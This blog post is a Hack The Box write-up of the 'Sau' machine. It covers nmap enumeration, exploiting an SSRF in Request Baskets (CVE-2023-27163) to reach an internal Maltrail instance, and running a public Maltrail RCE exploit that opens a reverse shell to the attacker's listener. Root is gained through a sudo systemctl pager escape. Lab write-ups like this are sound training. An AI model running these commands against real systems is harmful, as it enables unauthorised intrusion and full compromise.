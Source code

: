 ```yaml
---
layout: post
title: Sau
date: 2023-10-16 10:14:00-0400
description: Sau - Hack The Box write-up.
tags: easy-box HTB CTF RCE SSRF
categories: HTB-Machines
thumbnail: /assets/img/2023-sau/Sau.png
giscus_comments: false
related_posts: true
toc:
  beginning: true
featured: false
---
```


# Introduction

Sau is an Easy machine on Hack The Box that focuses on exploiting two vulnerabilities to ultimately obtain initial access. Privilege escalation is then achieved by exploiting a legitimate binary.

# Enumeration
Nmap reveals three ports:
- 22
- 80
- 55555

```shell
 nmap -sV -sC -T4 10.129.82.3 -oA nmap-sau
 
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 15 Oct 2023 04:01:09 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 15 Oct 2023 04:00:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 15 Oct 2023 04:00:38 GMT
|_    Content-Length: 0
<SNIP>
```

SSH is a dead end and port 80 is filtered, but browsing to `http://10.129.82.3:55555` lands on a site titled **Request Baskets**.

## What's Request Baskets?
Request Baskets is a concept, often implemented as a tool or a service, used to capture, inspect, and debug HTTP requests. It provides a temporary "basket" or "bucket" that captures incoming HTTP requests for analysis. This is particularly useful for debugging webhooks, HTTP clients, or other services that send HTTP requests.

An implementation usually works like this:

1. **Create** a new Request Basket, which provides a unique URL endpoint.
2. **Configure** the application, webhook, or service to send HTTP requests to the URL.
3. **Inspect** the incoming HTTP requests to the basket
4. Use the captured information,  to **test or debug issues**, validate payloads, or run other types of tests.

We can see that this particular implementation is on version 1.2.1, which is vulnerable to <a href="https://nvd.nist.gov/vuln/detail/CVE-2023-27163"> *CVE-2023–27163 - a Server-Side Request Forgery (SSRF)*</a>

## What's SSRF?
SSRF, or Server-Side Request Forgery, is a security vulnerability that allows an attacker to make requests to internal resources within an organization's network, effectively bypassing firewalls. In SSRF attacks, ***the attacker manipulates a vulnerable web application to make requests to an internal resource,*** which could be anything from cloud services to databases or even restricted parts of the web application itself.

The attack often occurs when a web application doesn't properly validate or sanitise user input for URLs. An attacker can then trick the server into making an unauthorised request to internal resources, potentially revealing sensitive information or even executing commands.

It's particularly concerning in cloud environments, where metadata APIs can expose sensitive data that can lead to more severe attacks like privilege escalation.

Prevention often involves input validation, restricting outbound requests from the server, or implementing allow lists for permissible URLs.

# Attack vector
Given port 80 is filtered but  there is an implementation of Request Baskets on port 55555 that is vulnerable to SSRF, this appears to provide a way to forward requests to the service running on port 80. A PoC of the SSRF vulnerability on Request-Baskets can be found [here](https://github.com/entr0pie/CVE-2023-27163).

## Testing
Creating a new basket in the web app and then configuring port 80 as the forward URL on a local interface can confirm this.

Hovering over the `Proxy Response` option, we can see it will *Proxy the response from the forward url back to the client*.

Checking this option will return the response from `http://localhost:80`.

<img src="/assets/img/2023-sau/20231016-sau-2.png" class="auto-resize">

Triggering a request by browsing to `http://10.129.82.3:55555/wnnyr21` returns a seemingly malformed web app called **Maltrail**.
<img src="/assets/img/2023-sau/20231016-sau-5.png" class="auto-resize">

The app is running version 0.53 which is vulnerable to a **Remote Code Execution.**

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit maltrail
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Maltrail v0.53 - Unauthenticated Remote Code Executi | python/webapps/51676.py
```

# Initial access
Using the first exploit, a basket can be created that, when accessed, will make a request to `http://localhost:80`, as tested manually.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ ./CVE-2023-27163.sh http://10.129.82.3:55555/ http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ndapra" proxy basket...
> Basket created!
> Accessing http://10.129.82.3:55555/ndapra now makes the server request to http://localhost:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"uQW06XHLrVKiZsq2XbeXRbrb6PRlQ53tTAVeaA-Puolb"}
```

This basket can then be used to proxy the second exploit to the vulnerable implementation of Maltrail.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ python3 51676.py 10.10.14.12 4321  http://10.129.82.3:55555/ndapra
Running exploit on http://10.129.82.3:55555/ndapra/login
```

The payload is executed on the Maltrail instance running on port 80, and a reverse shell is sucessfully caught on the listener.

<img src="/assets/img/2023-sau/20231016-sau-3.png" class="auto-resize">

# Privilege escalation
Privilege escalation is reasonably straight forward.

Checking what the user can run as sudo returns one binary: 
`/usr/bin/systemctl status trail.service`

```shell
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

[GTFOBIns](https://gtfobins.github.io/gtfobins/systemctl/) says the following about `systemctl` ran as sudo:

> *If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.*


Running the binary seems to drop into a new terminal session:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
```

Attempting to execute a new shell from this terminal will spawn it under sudo:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
```

<img src="/assets/img/2023-sau/20231016-sau-4.png" class="auto-resize">


Done and dusted!
